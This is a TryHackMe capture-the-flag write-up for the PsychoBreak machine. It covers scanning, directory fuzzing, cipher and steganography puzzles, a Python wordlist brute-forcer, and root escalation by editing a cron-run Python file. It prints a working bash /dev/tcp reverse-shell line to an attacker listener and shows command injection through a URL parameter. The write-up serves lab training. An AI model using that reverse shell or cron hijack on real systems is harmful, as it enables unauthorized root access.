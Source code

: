 ```yaml
---
tags: crypto, steg, subprocess, python
share: True
---
```


# THM: PsychoBreak

***Overview**: Psychobreak is a Linux machine on tryhackme rated as easy. This machine uses a series of  cryptography and steganography techniques to work through it's challenges but what is particularly interesting is exploiting a cronjob using subprocess in python to escalate privileges to root.*


> Hello fellow readers, 
I guess it's been a while I uploaded any con;ltent, sorry about that. Well  I decided to upload a writeup for this machine cause I found it particularly interesting but what I wanted to specifically share was using subprocess in python to gain a revere shell, I really hope you enjoy this writeup!!
	Much love,
	Gr4y.

#### Scanning and Enumeration
- As usual, I start with a port scan with Nmap
![](Psychobreak_assets/Pasted%20image%2020230421130725.png)
- Then I go for a full portscan using masscan, this verified we do have just 3 ports open
```shell
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535 10.10.121.146 --rate=1000 -e tun0 > psychobreak

┌──(kali㉿kali)-[~/THM]
└─$ cat psychobreak    
Discovered open port 21/tcp on 10.10.121.146                                   
Discovered open port 80/tcp on 10.10.121.146                                   
Discovered open port 22/tcp on 10.10.121.146
```
#### Web
- we go to the web page and this is how the site looks like
![](Psychobreak_assets/Pasted%20image%2020230421132523.png)
![](Psychobreak_assets/Pasted%20image%2020230421133737.png)
- Viewing the comments, we see a clue which looks like a directory path
![](Psychobreak_assets/Pasted%20image%2020230421133847.png)
- then visiting that directory, we are presented with this
![](Psychobreak_assets/Pasted%20image%2020230421134040.png)
- we found a key, so clicking on the link we a presented with that key to the locker room

![](Psychobreak_assets/Pasted%20image%2020230421134346.png)
- we can also see the key if we inspect the JavaScript file
![](Psychobreak_assets/Pasted%20image%2020230421134641.png)
- If we don't enter the key quickly, then it gets too late because of the timer
![](Psychobreak_assets/Pasted%20image%2020230421134512.png)
- Entering a key we got access to the locker room and another clue
![](Psychobreak_assets/Pasted%20image%2020230421134740.png)![](Psychobreak_assets/Pasted%20image%2020230421134845.png)
- now the clue we get is this piece of text Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv
![](Psychobreak_assets/Pasted%20image%2020230421135059.png)
- so Using a cipher identifier, we get that the possible cipher encoding is the Atbash Cipher
![](Psychobreak_assets/Pasted%20image%2020230421135330.png)
- Decrypting from Atbash [https://www.dcode.fr/atbash-cipher](https://www.dcode.fr/atbash-cipher), we got the key to access the map
- Now that we have access to the map, we will see that we have already been to the first 2 and we have the next directory to move too
![](Psychobreak_assets/Pasted%20image%2020230421135511.png)
- Moving to the next directory, we are presented with the below
![](Psychobreak_assets/Pasted%20image%2020230421135734.png)
![](Psychobreak_assets/Pasted%20image%2020230421135753.png)
- Inspecting the page, we are presented with our next clue
![](Psychobreak_assets/Pasted%20image%2020230421140127.png)
- "Search through Me", Hmmm, so after performing different forms of steganographic techniques in the presented images, and gaining nothing why don't we do a directory scan on the SafeHeaven directory, and we got the keeper sub directory
```shell
┌──(kali㉿kali)-[~/THM]
└─$ ffuf -w wordlist-part01.txt:FUZZ -u http://10.10.1.159/SafeHeaven/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.1.159/SafeHeaven/FUZZ
 :: Wordlist         : FUZZ: /home/kali/THM/wordlist-part01.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 324ms]
    * FUZZ: keeper
```

- going to that directory, we are presented with this
![](Psychobreak_assets/Pasted%20image%2020230422100710.png)
- Now in other to escape the keeper, we have to find the specific location of this image
![](Psychobreak_assets/Pasted%20image%2020230422100930.png)
- so now we will perform a reverse image search on  that image, and get the name of the building as St. Augustine Lighthouse
![](Psychobreak_assets/Pasted%20image%2020230423103203.png)
- Entering the name of that building, we get the keeper key
![](Psychobreak_assets/Pasted%20image%2020230422170603.png)
- After getting the key, we move to the Abandoned room Next
![](Psychobreak_assets/Pasted%20image%2020230422170817.png)
- then we click on go further and when we inspect, we find another clue
![](Psychobreak_assets/Pasted%20image%2020230422174512.png)
- so after some thought, we then tried to use shell as a parameter query and it worked, but only ls could be executed or is allowed
![](Psychobreak_assets/Pasted%20image%2020230422174229.png)
- so then we listed the contents of the previous directory using `ls+..` and got another possible directory
![](Psychobreak_assets/Pasted%20image%2020230422181119.png)
- go to that directory, we are presented with a zip file and a text file
![](Psychobreak_assets/Pasted%20image%2020230422181158.png)
- viewing the text file
![](Psychobreak_assets/Pasted%20image%2020230422181232.png)
- extracting the zip file contents we get a message in a text file and an image file
![](Psychobreak_assets/Pasted%20image%2020230422181519.png)
- viewing the text file, we see we have a message from Joseph
![](Psychobreak_assets/Pasted%20image%2020230422181614.png)
#### Steg
- we can't view the image but, viewing the metadata of the file, we can see that we can possibly extract some data from that image
![](Psychobreak_assets/Pasted%20image%2020230422182135.png)
- Extracting from the image, we get another image that is viewable and a wav file containing morse code
![](Psychobreak_assets/Pasted%20image%2020230422182643.png)
![](Psychobreak_assets/Pasted%20image%2020230422183000.png)
- Decrypting the Morse code , we get a message SHOWME
![](Psychobreak_assets/Pasted%20image%2020230422190149.png)
- then we can extract another text file using sheghide and using SHOWME as the passphrase to extract file from image
![](Psychobreak_assets/Pasted%20image%2020230422200846.png)
- Now we have obtained the FTP crednetials.
- logging into the FTP server, we are able to retrieve 2 files, one which seems like an executable program and the other a dictionary file
![](Psychobreak_assets/Pasted%20image%2020230422201157.png)
- executing the program, we will see that if we enter the wrong word, it shows us Incorrect
![](Psychobreak_assets/Pasted%20image%2020230422204309.png)
- so we need to write a program executes that program and utilizes the dictionary file found by feeding each word in the wordlist to the from, and the script below did just that
```python
#/bin/python3
import subprocess

# Replace script_path with the path to your shell script
script_path = "/home/kali/THM/_Table.jpg.extracted/program"

# Replace wordlist_path with the path to your wordlist file
wordlist_path = "/home/kali/THM/_Table.jpg.extracted/random.dic"

# Open the wordlist file for reading
with open(wordlist_path) as wordlist:

    # Iterate over each line in the wordlist
    for line in wordlist:

        # Strip newline character from line
        line = line.strip()

        # Build the command to execute your shell script with the current word as an argument
        command = [script_path, line]

        # Execute the command and capture the output
        output = subprocess.check_output(command)

        # Print the output
        print(output)
```
- after a little while, we we get the correct word as kidman and we get an encoded set of numbers
![](Psychobreak_assets/Pasted%20image%2020230422204120.png)
`55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33`
- placing this in a cipher identifier, we see that the possible cipher is Multi-tap Phone (SMS)
![](Psychobreak_assets/Pasted%20image%2020230422205239.png)
![](Psychobreak_assets/Pasted%20image%2020230422205303.png)
- Decoding this we get something that seems like a password form Kidman
#### Foothold
- using the string as the password for kidman via SSH, we get foothold to the machine
![](Psychobreak_assets/Pasted%20image%2020230422205923.png)
- we finally get our user flag
![](Psychobreak_assets/Pasted%20image%2020230422205957.png)
- viewing the hidden files, we see 2 text files
![](Psychobreak_assets/Pasted%20image%2020230422210324.png)
- since the content of the first file is encoded, we analyze it and see the possible cipher as ROT-47
![](Psychobreak_assets/Pasted%20image%2020230422210620.png)
- Then decoding it, we get another message
![](Psychobreak_assets/Pasted%20image%2020230422210635.png)
```
From Kidman:

The thing I am about to tell so is top secret. No one doesn't know about this. It's the Ruvik's eye. No one can hide away from it. But I can tell you one thing search for the string *the_eye_of_ruvik* . You got to help Sebastian defeat Ruvik ...
```
#### Privilege Escalation
- Running linpeas and looking at the output
![](Psychobreak_assets/Pasted%20image%2020230422214119.png)
- we can see that a cronjob that executes a file as root is running
![](Psychobreak_assets/Pasted%20image%2020230422215242.png)
![](Psychobreak_assets/Pasted%20image%2020230422215342.png)
- we can see that the file is in our var directory
![](Psychobreak_assets/Pasted%20image%2020230422215809.png)
- looking at the file, we can see that the file imports subprocess and executes some commands
![](Psychobreak_assets/Pasted%20image%2020230422220046.png)
- we then try to gain a reverse shell with subprocess in python using to the code `subprocess.Popen(["/bin/bash", "-c", "exec /bin/bash -i &>/dev/tcp/10.8.80.123/4242 <&1"])`
![](Psychobreak_assets/Pasted%20image%2020230422221529.png)
- we can then see that we have a root shell in our listener and we finally have our root file
![](Psychobreak_assets/Pasted%20image%2020230422221556.png)

#### Defeat Ruvik
- delete Ruvik's account with `sudo userdel -r ruvik` (-r to delete the home dorectory recursively)
![](Psychobreak_assets/Pasted%20image%2020230422222126.png)


Thank you reading my writeup guys, see you next time, Much love!!